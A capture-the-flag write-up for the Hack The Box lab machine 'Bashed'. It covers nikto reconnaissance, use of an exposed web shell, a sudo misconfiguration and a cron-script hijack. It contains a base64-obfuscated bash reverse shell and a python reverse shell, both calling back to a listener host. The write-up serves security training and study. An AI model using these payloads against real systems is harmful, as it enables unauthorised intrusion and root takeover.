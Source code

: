 +++ 
title = "Bashed HTB Write up"
description = "Write up for the HTB machine 'Bashed'"
author = "greatmoves"
tags = ["php", "sudo -l", "python", "nikto", "cronjob", "hackthebox", "linux"]
date = 2023-03-01
+++
- [1. Recon](#1-recon)
  - [1.1. Nikto](#11-nikto)
- [2. Privilege escalation](#2-privilege-escalation)

## 1. Recon
----
### 1.1. Nikto
cmd: `nikto -host 10.10.10.68`

Our nikto scan reveals to us a number of files and directories
- /config.php
- /css/
- /dev/
- /php/
- /images/
- /icons/

The path `/dev/phpbash.php` seems to be a remote shell

So let's use this to get a reverse shell by running the following command along with a netcat listener

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAueC54LzQ0NDQgMD4mMQ==" | base64 -d | bash`

Once we have our reverse shell let's start with obtaining a fully interactive shell by running `python -c 'import pty;pty.spawn("/bin/bash");'` and then `sudo -l` where we get the following output:

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means we don't need a password to move from our user `www-data` to the user `scriptmanager`, so we simply run `sudo -u scriptmanager /bin/bash` 

`/home/arrexel` is where we can find `user.txt`

## 2. Privilege escalation
----
Through further enumeration of the file system we can see that there is a `/scripts/` folder in the root of the file system.

Simply running `ls -la` we can see that `test.py` is owned by our user, `scriptmanager`, and `test.txt` is owned by the root user.

Therefore we could assume that the script `test.py` is being run by the root user (perhaps through a cronjob, or some sort of other automation), and since `test.py` is owned by our user, we have permissions to edit it.

So, let's replace `test.py` with a python script for a reverse shell. We can do this by using `echo '{python code here}' > test.py` when in the `/scripts/` directory.

{{< highlight py "linenos=inline" >}}
    #!/usr/bin/python3
    import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("10.10.x.x",4445));os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call(["/bin/sh","-i"]);
{{< / highlight >}}

Spin up your netcat listener on the same port that is in your script and wait until `test.py` is run to catch your reverse shell as root.

Finally, navigate to `/root/` for `root.txt`
